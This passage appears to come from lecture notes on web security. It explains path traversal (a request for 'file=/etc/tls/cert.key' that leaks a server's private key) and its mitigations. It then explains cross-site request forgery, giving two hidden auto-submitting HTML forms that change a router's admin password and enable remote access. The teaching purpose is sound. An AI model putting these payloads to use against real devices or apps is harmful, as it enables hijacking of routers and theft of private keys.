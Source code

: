 This should send something like "file=foo.txt" as one of the request
parameters. Then your app will open "file.txt" in the appropriate
directory and send it along.

What if the user sends a POST request asking for "file=/etc/tls/cert.key".
Your app goes ahead and opens the file and sends it along. And the attacker
has your HTTPS private key and can impersonate your server.

The two approaches to mitigate this issue are:

1. Indirection. Send "file_id=7" instead, and look up the name of the file
   in the legal_downloads table in your database.
2. Sanitize the input. Verifiy that the input has no slashes, or dots, or
   tildes in it before opening the file. This works if you catch every bad
   case, but that can be hard.

### Cross Site Request Forgery (XSRF) Attacks

 - Users in web apps are generally authenticated by session cookies.
 - Any time a user with an appropriate cookie in their browser makes
   a request to the server, they're authenticated by the cookie.
 - Forms on web sites are submitted as a HTTP POST request.
 - Nothing stops somoene from making a form on another web site that
   has an "action" attribute pointing at your server.
 - When a user submits the form on the other site, if they're already
   logged in on your site, they're an authenticated user making an
   apparently legitimate request.
 - The form doesn't have to be visible and can be triggered by JavaScript.

Example:

 - Imagine your home router can be administered from a web browser.
 - It has a form to change the admin password.
 - It has a form to enable access from the public internet.
 - The router always lives at http://192.168.1.1/
 - You visit a cat video on haxxor.fi, and those dasterdly Finnish hackers have
   a hidden form on the page: 

```
<div style="display: none;">
<form id="hax" action="http://192.168.1.1/change_admin_password" method="post">
<input type="hidden" name="new_password" value="haxxor.fi">
</form>
</div>

<script>
  $(function() { $('#hax').submit() });
</script>
```

The page inexplicably reloads. The next page has another form.

```
<div style="display: none;">
<form id="hax" action="http://192.168.1.1/allow_remote_access" method="post">
<input type="hidden" name="allow_remote_access" value="1">
</form>
</div>

<script>
  $(function() { $('#hax').submit() });
</script>
```
